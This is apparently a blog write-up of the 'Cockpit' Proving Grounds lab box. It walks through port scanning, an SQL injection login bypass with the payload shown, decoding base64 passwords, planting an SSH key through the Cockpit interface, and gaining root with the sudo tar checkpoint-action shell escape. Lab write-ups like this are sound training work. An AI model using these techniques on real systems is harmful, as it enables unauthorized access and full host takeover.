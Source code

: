 ```yaml
---
layout: post
title: Cockpit - Proving Grounds
date: 03-02-2025
categories: [Writeups]
tag: [Proving Grounds, Linux, Intermediate]
---
```


# Cockpit - Walkthrough

Cockpit is an intermediate box on OFFSEC’s Proving Grounds and the community agrees that it is intermediate difficulty. 

- [Cockpit - Walkthrough](#cockpit---walkthrough)
  - [Recon](#recon)
  - [Enumeration](#enumeration)
  - [Exploitation](#exploitation)
  - [Privilege Escalation](#privilege-escalation)


## Recon
Start scanning all ports:
```
sudo nmap -p- 192.168.134.10 -T5 -v    
```
![Scan de todas as portas](/assets/images/Cockpit/1.png)

Port 9090 scan:

```
nmap -sC -sV -Pn -p9090 192.168.134.10 -v
```
![9090](/assets/images/Cockpit/2.png)

There is an service called Cockpit in this door.

## Enumeration

I listed the directories for port 80 and found a login.php page:

```
sudo dirsearch -u http://192.168.146.10 -r -o /usr/share/seclists/Discovery/Web-Content/dirsearch.txt   
```

![login](/assets/images/Cockpit/3.png)

Login page:
![login](/assets/images/Cockpit/4.png)

I put a quotation mark in the username field to try an Injection and got an error message:
![sql](/assets/images/Cockpit/5.png)

While researching how to log in with sql injection, I came across the following [SecLists page](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt)

I used the payload < username >‘-- as admin’-- - and was able to access the target. It would also work with ‘OR ’' = '

![sql](/assets/images/Cockpit/6.png)

I gained access to a page listing 2 users and hashes

![sql](/assets/images/Cockpit/7.png)

*james:Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=*<br>
*cameron:dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy*

The equal sign at the end of one of the passwords shows that it is base64 encoded, so I tried to crack the passwords:

```
┌──(kali㉿kali)-[~/Desktop/pen200/labs/Cockpit]
└─$ echo -n 'Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=' | base64 -d 
canttouchhhthiss@455152 
```

```
┌──(kali㉿kali)-[~/Desktop/pen200/labs/Cockpit]
└─$ echo -n 'dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy' | base64 -d
thisscanttbetouchedd@455152    
```
I accessed port 9090 and used james' credentials to log in

![app](/assets/images/Cockpit/9.png)
![app](/assets/images/Cockpit/10.png)

## Exploitation

Inside the application I accessed the accounts menu, which had the james and root accounts:

![accs](/assets/images/Cockpit/11.png)

I clicked on james and there was a field to add a Public SSH Key:
![ssh](/assets/images/Cockpit/12.png)

I used ssh-keygen to create a public key and a private SSH key:

```
┌──(kali㉿kali)-[~/Desktop/pen200/labs/Cockpit]
└─$ ssh-keygen                   
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/kali/.ssh/id_ed25519): jamescockpit
Enter passphrase for "jamescockpit" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in jamescockpit
Your public key has been saved in jamescockpit.pub
The key fingerprint is:
SHA256:wHF3akjLU+4GQiq4bKk1njQ4zwfo/p7kyOHBpG+YrRQ kali@kali
```

![keygen](/assets/images/Cockpit/13.png)

The Public Key was saved as jamescockpit.pub

![key](/assets/images/Cockpit/14.png)

I copied the contents of the public key into the application

![ssh](/assets/images/Cockpit/15.png)

Then I used the private key to authenticate myself on the host:

```
┌──(kali㉿kali)-[~/Desktop/pen200/labs/Cockpit]
└─$ ssh -i jamescockpit james@192.168.102.10
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-146-generic x86_64)
james@blaze:~$ 
```

![ssh](/assets/images/Cockpit/16.png)

I explored the directory and got the local.txt flag

![flag](/assets/images/Cockpit/17.png)

## Privilege Escalation

I used the sudo -l command to list the user's privileges. The answer shows that the user james can run the tar binary as root

```
james@blaze:~$ sudo -l
```
![sudo](/assets/images/Cockpit/18.png)

I searched GTFOBINS for ways to exploit the tar binary sudo:

![gtfo](/assets/images/Cockpit/19.png)

Then I executed the command *--checkpoint=1 --checkpoint-action=exec=/bin/sh* along with the binary indicated in sudo -l to elevate my privilege to root

```
james@blaze:~$ sudo /usr/bin/tar -czvf /tmp/backup.tar.gz * --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
![sudo](/assets/images/Cockpit/20.png)

I explored the host and got the proof.txt flag

![sudo](/assets/images/Cockpit/21.png)
